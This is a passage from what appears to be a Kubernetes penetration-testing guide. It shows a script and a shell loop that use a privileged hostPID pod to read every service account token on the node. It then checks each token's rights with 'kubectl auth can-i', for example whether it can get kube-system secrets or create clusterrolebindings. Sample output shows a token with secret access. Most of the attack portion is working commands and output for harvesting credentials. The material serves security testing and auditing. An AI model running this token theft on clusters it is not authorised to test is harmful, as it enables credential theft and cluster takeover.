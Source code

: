 * Takes the pod name and namespace as input
* Grabs all of the tokens from `/var/lib/kubelet/pods/*` on the host
* Loops each token against the `selfsubjectaccessreviews` endpoint: `kubectl --token=$token auth can-i [$user-input]`


**Run `can-they.sh` where you have kubectl installed and NOT from within the priv pod**
```
./can-they.sh
./can-they.sh -i "--list -n kube-system"
./can-they.sh -i "--list -n default"
./can-they.sh -i "list secrets -n kube-system"
./can-they.sh -i "create pods -n kube-system"
./can-they.sh -i "create clusterrolebindings"
```

**Example Run on kubeadm cluster showing that the kubevol-token can list secrets in kube-system**
```
./can-they.sh -n development -p priv-and-hostpid-exec-pod -i "get secrets -n kube-system"
--------------------------------------------------------
Token Location: /var/lib/kubelet/pods/21b0eb3f-b99e-40ed-bedf-198c77dfc101/volumes/kubernetes.io~secret/kubevol-token-xfjgv/token
Can I get secrets -n kube-system?
yes

--------------------------------------------------------
Token Location: /var/lib/kubelet/pods/75c4da2c-29ef-41c2-bc66-5994a690abd0/volumes/kubernetes.io~secret/default-token-qqgjc/token
Can I get secrets -n kube-system?
no
...omitted for brevity...
```




*Run this where you have kubectl installed and NOT from within the priv pod.*
```
tokens=`kubectl exec -it priv-and-hostpid-exec-pod -- find /var/lib/kubelet/pods/ -name token -type l`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it priv-and-hostpid-exec-pod -- cat $filename_clean`; \
echo -n "What can I do? "; \
kubectl --token=$tokena auth can-i --list; echo; \
done
```
This is what just happened:
* From outside the pod, you execute `kubectl exec` to find all of the token locations on the host
* You then iterate through the list of filenames, and
  * Print the token location
  * Run `kubectl auth can-i list` using each token via the `--token` command line argument. 
* This gives you a list of the actions each token can perform cluster wide. 
  
The next command will do the same thing, but just in the kube-system namespace. 
